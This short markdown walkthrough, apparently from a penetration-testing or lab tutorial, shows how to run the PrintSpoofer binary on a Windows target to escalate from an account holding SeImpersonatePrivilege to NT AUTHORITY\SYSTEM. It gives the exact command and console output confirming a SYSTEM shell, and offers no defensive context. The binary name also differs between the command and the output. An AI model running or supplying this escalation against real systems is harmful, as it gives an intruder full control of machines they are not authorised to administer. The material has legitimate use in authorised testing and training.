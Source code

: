 ## Impersonating the Local SYSTEM Account with PrintSpoofer

after we have download the binary we just need to transfer it to our target and run the following command
```
command: .\spoofer64.exe -i -c cmd
```

# OUTPUT
```
C:\Users\Public\Desktop>spoofer.exe -i -c cmd
spoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                          

C:\Windows\system32>whoami
whoami
nt authority\system 
```

## WE ARE DONE WITH PRINTSPOOFER BINARY HOPE U ENJOYED
